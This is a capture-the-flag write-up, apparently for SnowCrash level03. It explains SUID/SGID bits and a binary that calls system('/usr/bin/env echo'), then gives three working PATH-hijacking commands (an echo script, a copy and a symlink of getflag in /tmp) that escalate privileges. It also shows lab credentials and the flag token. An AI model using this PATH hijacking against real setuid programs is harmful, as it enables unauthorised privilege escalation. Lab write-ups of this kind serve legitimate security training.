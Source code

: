 
ssh level03@10.12.100.98 -p 4242
pwd: kooda2puivaav1idi4f57q8iq

In the home we found a binary file `level03`

first thing to notice when `ls`-ing the dir are the file permissions:
`rwsr-sr-x`
**owner**: has read, write, [SUID permissions](https://www.zzee.com/solutions/linux-permissions.shtml)
**group**: read and SGID permissions

```

the setguid bit set = if the file were executed, that it would be 
run with the effective rights of the group owner (instead of that of
the user who executed it) aka : you inherit the permissions of that 
program's owner.

On a directory, the setgid bit means that, if a file is created in 
the directory, its group-owner would be that of the directory 
(instead of that of the user who created it).   

```
[StackOverflow](https://stackoverflow.com/questions/9129959/how-to-set-a-file-to-this-drwxrwsrwx-permission-on-ubuntu#:~:text=The%20group%20owner%20permissions%20in,is%20the%20s%20in%20rws%20)

if we execute `./level03`, it outputs the msg: `Exploit me`

```
strings level03
    /usr/bin/env echo Exploit me
```
tracing the call of the executable either with strings or ltrace ull notice:

`system("/usr/bin/env echo Exploit me")`

u could check [this thread](https://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code/8304447) on StackOverflow

Whenever user type some command in shell, it first search that command in the list of directories mentioned in PATH environment variable. {[Quora](https://www.quora.com/How-are-commands-executed-in-Linux)}


so on the system function call we can override the behavior of echo to inject our getflag command which is built-in /bin/getflag 

`echo "/bin/getflag" > /tmp/echo && chmod +x /tmp/echo && PATH=/tmp:$PATH`

```
 echo "echo getflag" > /tmp/echo
 chmod 777 /tmp/echo
 export PATH=/tmp:$PATH
```


```
 ./level03
    token : qi0maab88jeaj46qoumi7maus
 ```

 Echo Command -1st Technique to spawn root privilege
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

Copy Command -2nd Technique to spawn root privilege

cp /bin/getflag /tmp/echo
export PATH=/tmp:$PATH
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus


Symlink command -3rd Technique to spawn root privilege
ln -s /bin/getflag /tmp/echo
